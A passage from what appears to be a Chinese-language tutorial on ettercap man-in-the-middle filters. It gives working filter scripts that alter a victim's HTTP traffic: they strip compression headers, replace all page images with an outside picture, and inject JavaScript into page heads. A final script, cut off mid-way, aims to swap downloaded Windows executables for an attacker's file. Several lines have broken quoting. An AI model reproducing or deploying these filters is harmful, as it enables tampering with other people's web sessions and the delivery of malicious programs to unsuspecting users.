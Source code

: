 #### (2) 替换网页的图片:

　　貌似上面的恶搞还不爽,那就把他浏览网页时的图片换掉试试,使用的脚本是etter.filter.images,如下

```bash
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   msg("Filter Ran.\n");
}
```

#### (3) JavaSproit注入:

　　技术有限,这里就简单的弹个窗吧 :(　使用的脚本是etter.filter.alert：

```bash
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           replace("Accept-Encoding", "Accept-Rubbish!");
           msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<body")) {
        replace("<head","<head<script type="text/javascript"alert('just for a test!');</script");
        replace("<HEAD","<HEAD<script type="text/javascript"alert('just for a test');</script");
        msg("Filter run!...Exploit code injected ok!\n");
    }
}
```

#### (4)替换URL

```bash
# replace rmccurdy with your website
# replace the url with what ever exe you like

if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("keep-alive", "close" ");
   replace("Keep-Alive", "close" ");
}

if (ip.proto == TCP && search(DATA.data, ": application") ){
   # enable for logging log(DECODED.data, "/tmp/log.log");
   msg("found EXEn");
   # "Win32" is the first part of the exe example:
   # if the EXE started with "this program must be run in MSDOS mode" you could search for MSDOS etc ..
   if (search(DATA.data, "Win32")) {
```